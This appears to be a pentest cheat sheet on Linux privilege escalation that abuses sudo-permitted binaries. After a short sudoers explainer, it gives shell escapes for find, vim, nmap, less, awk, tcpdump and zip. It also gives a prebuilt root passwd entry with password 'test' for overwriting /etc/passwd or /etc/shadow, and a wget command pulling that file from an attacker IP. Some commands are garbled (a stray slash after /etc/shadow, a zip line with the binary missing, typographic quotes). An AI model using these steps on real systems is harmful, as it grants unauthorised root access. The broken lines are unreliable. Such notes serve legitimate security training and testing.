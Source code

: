 # Background
- Substitute User and Do 
- Users can execute command under root (or other users) using their own passwords instead of root’s one or without password depending upon sudoers setting.
- Settings for the local Host are defined in the /etc/sudoers/ file.

# Syntax
User Terminals =(Acting as user) Allowed Command 
Examples:
```
root ALL=(ALL) ALL 
```
  - Root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.
```
touhid ALL= /sbin/poweroff 
```
  - Touhid can from any terminal, run the command power off using touhid’s user password.
```
touhid ALL = (root) NOPASSWD: /usr/bin/find 
```
  - Touhid can from any terminal, run the command find as root user without password.

# Attack Vector
1. Display the SUDO commands available to the current user.
```
sudo -l
```
2. Identify Vulnerable Binaries
[GTFOBins](https://gtfobins.github.io/)
## CP
Copy and overwrite the /etc/shadow/ file with a new entry for a root user.
```
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
```
  - Password is "test".
## Find
```
sudo find /etc/passwd -exec /bin/sh \; 
sudo find /bin -name nano -exec /bin/sh \; 
sudo find / -exec bash -i \; 
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 
```
## Vim
```
sudo vim -c '!sh'
```
## Nmap
### Old Way
```
sudo nmap --interactive 
nmap> !sh 
```
  - Note : nmap –interactive option not available in latest nmap.
### New Way
```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
## Man
```
sudo man man
```
  - After that press !sh and hit enter.
## Less/More
```
sudo less /etc/hosts
```
  - After that press !sh and hit enter. 
```
sudo more /etc/hosts 
```
  - After that press !sh and hit enter.
## AWK
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
## Nano
A text editor that can be used to overwrite the passwd file with a new root user and predefined password.
```
sudo nano  /etc/passwd 
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
Su newuser
```
  - Password is "test".
## Wget (ippsec:Sunday)
You can download a copy of the target passwd file, change it, then re-upload it to the target machine.
1. Send the passwd file from the target box to your attacker box through various transfer means.
2. Add a new root user with a password of "test".
```
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
```
3. Re-upload the passwd file from the attacker box to the target box.
```
sudo wget [attacker IP]:[port]/passwd -O /etc/passwd
```
  - Or substitute in /etc/shadow instead of /etc/passwd if the shadow file is used (which is likely).
## Apache
Can't get a shell with this binary but can display file contents.
```
sudo apache2 -f /etc/shadow/
```
## Mount
```
sudo mount -o bind /bin/bash /bin/mount 
sudo mount 
```
## TCPdump
```
echo $’id\ncat /etc/shadow’ > /tmp/.test 
Chmod +x /tmp/.test 
Sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
## ZIP
```
Sudo zipfile.zip [random text file]  -T –-unzip-command="sh –c /bin/bash"
```
